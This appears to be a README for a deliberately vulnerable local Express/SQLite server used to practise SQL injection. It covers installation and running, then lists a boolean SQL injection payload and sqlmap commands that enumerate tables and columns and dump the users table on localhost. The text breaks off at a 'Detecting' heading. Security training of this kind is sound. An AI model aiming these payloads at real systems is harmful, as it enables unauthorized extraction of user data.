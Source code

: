 ## Running the Server

To run the Server, follow these steps:

### Install npm
```bash
sudo apt install npm
```

### Install packages, Express.js, SQLite, base-64, and uuid using npm:

```bash
npm install
```

### Run the server:

```bash
node server.js
```

### Payload

Use the following payloads for testing:

```plaintext
1000 or 1=1 limit 1 offset 1--
```

```
## To list the tables in the database.
sqlmap -u "http://localhost:3000/users?id=1" --dbms=sqlite --tables

## To list the columns in the users table.
sqlmap -u "http://localhost:3000/users?id=1" --dbms=sqlite --columns -T users 

## To dump the data in the users table.
sqlmap -u "http://localhost:3000/users?id=1" --dbms=sqlite --dump -T users 

```

### Detecting 
